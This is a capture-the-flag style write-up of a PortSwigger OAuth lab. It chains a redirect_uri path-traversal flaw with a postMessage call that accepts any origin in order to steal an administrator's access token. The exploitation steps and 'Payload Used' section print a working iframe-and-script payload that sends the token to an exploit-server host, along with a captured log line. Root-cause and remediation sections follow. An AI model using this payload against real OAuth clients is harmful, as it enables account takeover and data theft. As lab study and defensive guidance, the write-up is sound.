

## Metadata

- **Difficulty:** Expert
- **Category:** OAuth authentication
- **Lab URL:** [Lab: Stealing OAuth access tokens via a proxy page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)
- **Date Solved:** 9/10/2026
## Vulnerability Summary

The client application uses the OAuth 2.0 Implicit Grant flow (`response_type=token`) and is vulnerable to account takeover via chained validation flaws. The OAuth authorization server enforces an insecure prefix match rather than an exact match on registered `redirect_uri` values and permits directory traversal (`../`). By traversing to an endpoint on the client application (`/post/comment/comment-form`) that contains a script that, once the page loads, sends its full URL to its parent frame with a `*` target origin, an attacker can initiate the OAuth flow and trick the victim's browser into completing it by embedding the authorization URL in an `<iframe>` tag. This allows us to extract the administrator's OAuth access token via client-side JavaScript on the destination server and query the `/me` endpoint to compromise the account and exfiltrate sensitive data. 
## Reconnaissance

- Navigating to the `/my-account` endpoint automatically takes us to the `/social-login` endpoint. Here, we can log in with the provided credentials `wiener:peter`.
- The server is using OAuth as the authentication mechanism, as there is a request sent to the server automatically after we are redirected:
```http
GET /auth?client_id=[client-id]&redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback&response_type=token&nonce=[nonce-value]&scope=openid%20profile%20email 
...
```
We can see that the grant type is *implicit*, due to the `response_type=token` parameter in the request line.
- After some back and forth interactions between the client application and the OAuth authorization server, the client application sent a `GET /me` request to the OAuth server with the header `Authorization: Bearer [token]`(the token is granted by the server on a response to `GET /auth/[interaction-code]`, to which the server responded with the data of the user:
```json
{
  "sub":"wiener",
  "apikey":"[key]",
  "name":"Peter Wiener",
  "email":"wiener@hotdog.com",
  "email_verified":true
}
```
To gain access of the `administrator` account and their `apikey`, we need to find a way to exfiltrate their access token.
- Try modifying the `redirect_uri` parameter to `https://example.com`, we get a `400 Bad Request` that reads:
```html
<pre>
  <strong>
    error
  </strong>
  : redirect_uri_mismatch
</pre>
<pre>
  <strong>
    error_description
  </strong>
  : redirect_uri did not match any of the client&#39;s registered redirect_uris
</pre>
```
The server is presumably using a whitelist-based filter to validate the `redirect_uri` parameter. 
- Try injecting the root directory of the app (`/`) yields the same result.
- Supplying `redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback/uia` returns a `302 Found` that reads `Redirecting to /interaction/G9H7Cz8RR5YR0vzDDoDe8.`, which means that the server has accepted the authorization request. Following the redirection, we get a `400 Bad Request`:
```http
<pre>
  SessionNotFound: invalid_request<br>
   &nbsp; &nbsp;at Provider.getInteraction (/opt/node-v19.8.1-linux-x64/lib/node_modules/oidc-provider/lib/provider.js:50:11)<br>
   &nbsp; &nbsp;at Provider.interactionDetails (/opt/node-v19.8.1-linux-x64/lib/node_modules/oidc-provider/lib/provider.js:228:27)<br>
   &nbsp; &nbsp;at /home/carlos/oauth/index.js:160:34<br>
   &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/layer.js:95:5)<br>
   &nbsp; &nbsp;at next (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/route.js:137:13)<br>
   &nbsp; &nbsp;at setNoCache (/home/carlos/oauth/index.js:121:5)<br>
   &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/layer.js:95:5)<br>
   &nbsp; &nbsp;at next (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/route.js:137:13)<br>
   &nbsp; &nbsp;at Route.dispatch (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/route.js:112:3)<br>
   &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/node-v19.8.1-linux-x64/lib/node_modules/express/lib/router/layer.js:95:5)
</pre>
```
 So the server did try to resolve to the path we supplied in the `redirect_uri` parameter. The filter is just an exact string prefix check if it matches `https://[lab-id].web-security-academy.net/oauth-callback`.
 - Supplying `redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback/../uia` yields a `302 Found` that signifies a successful authorization initialization attempt. This means that we can also inject path traversal sequences to get to the root directory and then to any endpoint we want on the client application. 
 - Go to any random post. The client-side source code of the post (`view-source:`) contains this script:
```js
<iframe onload='this.height = this.contentWindow.document.body.scrollHeight + "px"' width=100% frameBorder=0 src='/post/comment/comment-form#postId=4'>
</iframe>
```
The goal of this snippet is to embed an internal comment submission form inside an `<iframe>`. The request to said submission form is sent right after the initial request to the post. It contains a very interesting part in its script:
```js
parent.postMessage({
  type: 'onload', data: window.location.href
},
 '*')
```
When the page loads, it sends its full URL to its parent frame with the `*` target origin, so *any* parent, including cross-origin ones, can receive it. The `window.location.href` includes the fragment, so the access token and other relevant data will be included. Thus, on our exploit server, we can introduce a payload that injects the `/post/comment/comment-form` endpoint in the `redirect_uri` parameter in an `iframe`, then listens for the `onload` event and exfiltrates the token, sending it to the exploit server where it can be read it `/log`. Then, we will supply the extracted token in a `GET /me` request sent to the OAuth authorization server to gain access to the victim's account.
## Exploitation Steps

1. Navigate to the `/my-account` endpoint, where you will be automatically taken to the `/social-login` endpoint. Log in with the credentials `wiener:peter` and proceed with the login process. Send the first request of the process (`GET /auth?client_id=[id]&redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback&response_type=token&nonce=[value]&scope=openid%20profile%20email`) and the `GET /me` request that contains the access token to the **Repeater** tab.
2. Go to the exploit server, then paste the following script into the body:
```js
<iframe src='https://oauth-[oauth-server-id].oauth-server.net/auth?client_id=[client-id]&redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=[nonce-value]&scope=openid%20profile%20email'></iframe>
<script>
window.addEventListener('message', function(e) {
    if (e.data.type === 'onload') {
        fetch('https://exploit-[exploit-server-id].exploit-server.net/log?' + encodeURIComponent(e.data.data));
    }
}, false);
</script>
```
Then deliver the exploit to victim. The victim must have an active session from the OAuth server for this to work, which the lab already simulated for us.
3. In the access log (`/log`), observe that the victim's access token has been exfiltrated in the URL:
```
10.0.4.135      2026-10-09 03:08:38 +0000 "GET /log?https%3A%2F%2F0a05007004fe875880e00d3100e100e1.web-security-academy.net%2Fpost%2Fcomment%2Fcomment-form%23access_token%3D2JskHk5zMinLT6oRP7L2GSv2l9bamq31AEmzX9d7ei7%26expires_in%3D3600%26token_type%3DBearer%26scope%3Dopenid%2520profile%2520email HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/154.0.0.0 Safari/537.36"
```
More specifically, it's `2JskHk5zMinLT6oRP7L2GSv2l9bamq31AEmzX9d7ei7` (this value changes from lab session to session).
4. Supply the access token in the `Authorization` header of the `GET /me` request to the OAuth authorization server. You should get a `200 OK` with `administrator`'s account details, including their `apikey`:

5. Submit the `apikey` value (`/submitSolution`). Lab is solved.
## Payload Used

```js
<iframe src='https://oauth-[oauth-server-id].oauth-server.net/auth?client_id=[client-id]&redirect_uri=https://[lab-id].web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=[nonce-value]&scope=openid%20profile%20email'></iframe>
<script>
window.addEventListener('message', function(e) {
    if (e.data.type === 'onload') {
        fetch('https://exploit-[exploit-server-id].exploit-server.net/log?' + encodeURIComponent(e.data.data));
    }
}, false);
</script>
```
The script embeds the URL of the page of the initial request of the OAuth flow. The `redirect_uri` parameter, through path traversal, is resolved to the `post/comment/comment-form` endpoint. This endpoint contains a vulnerable script as explained above - the receiving window can get a message as an event through the `postMessage()` method. Then, after the OAuth authorization process is completed by the victim's browser, the script listens for the `message` event, then looks specifically for the `onload`-type objects. We then, through the `fetch` method, send a `GET` request to our exploit server to exfiltrate the encoded full URL in `e.data.data`.  
## Root Cause

- The OAuth authorization server implements weak prefix matching instead of an exact-match whitelist on registered `redirect_uri` values, allowing path traversal sequences (`/../`).
- Sensitive data is transmitted using the target origin `*`. The browser therefore dispatches the message to the parent frame regardless of the parent's window origin. That's why the URL was leaked when we embed an `iframe` with our exploit server.
## Remediation

- **Strict Exact-Match `redirect_uri` Whitelisting:**
    - The OAuth authorization server must enforce strict, byte-for-byte exact matching between the requested `redirect_uri` and the pre-registered client callback URIs.
    - Disallow wildcard matches, subdomains, directory traversal, and partial path matching.
- **Restrict the target origin:**
    - Explicitly declare the exact origin of the intended parent window:
    ```js
    parent.postMessage( 
	    { type: 'onload', data: window.location.href }, 
	    'https://trusted-parent.example.com' 
	);
    ```
- **Migrate to Authorization Code Flow with PKCE:**
    - Deprecate the Implicit Grant flow entirely in accordance with OAuth 2.1 specifications.
    - Implement the Authorization Code flow utilizing **Proof Key for Code Exchange (PKCE)**. In this flow, the authorization server returns an ephemeral `authorization_code` (not an access token) to the callback, and the client trades it on a back-channel POST request alongside a cryptographically validated `code_verifier`. Even if an open redirect leaks the authorization code, an attacker cannot exchange it without the PKCE secret.
- **Implement Anti-Framing Protections:** Deploy the `Content-Security-Policy: frame-ancestors 'self'` (or `'none'`) response header on internal endpoints and proxy pages, supplemented by legacy `X-Frame-Options: SAMEORIGIN`, to prevent untrusted domains from embedding the application in an `<iframe>` and intercepting cross-origin `postMessage` event.